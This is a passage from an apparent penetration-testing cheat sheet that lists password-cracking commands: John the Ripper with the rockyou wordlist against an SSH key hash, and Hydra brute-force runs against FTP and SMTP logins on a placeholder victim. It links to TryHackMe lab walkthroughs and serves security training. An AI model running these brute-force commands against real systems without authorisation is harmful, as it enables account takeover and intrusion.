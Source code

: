 ```
/opt/john/ssh2john.py idrsa.id_rsa > id_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt 
```



## FTP

### Crack password for a specific username

#### Examples

[agent-sudo.md](../../walkthroughs/tryhackme/agent-sudo.md "mention")[year-of-the-rabbit.md](../../walkthroughs/tryhackme/year-of-the-rabbit.md "mention")

**Kali**

```
hydra -l $USERNAME -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt ftp://$VICTIM
```

## SMTP

### Crack password for a specific username

#### Examples

[password-attacks.md](password-attacks.md "mention")

**Kali**

```
hydra -l $USERNAME -P /usr/share/wordlists/rockyou.txt smtp://$VICTIM:25 -v
```

### Crack username and passwords

#### Examples

[red-team-capstone-challenge.md](../../walkthroughs/tryhackme/red-team-capstone-challenge.md "mention")

**Kali**

```
hydra -L usernames.txt -P passwords.txt smtp://$VICTIM -v
```

## POP3

### Crack usernames and passwords

#### Examples
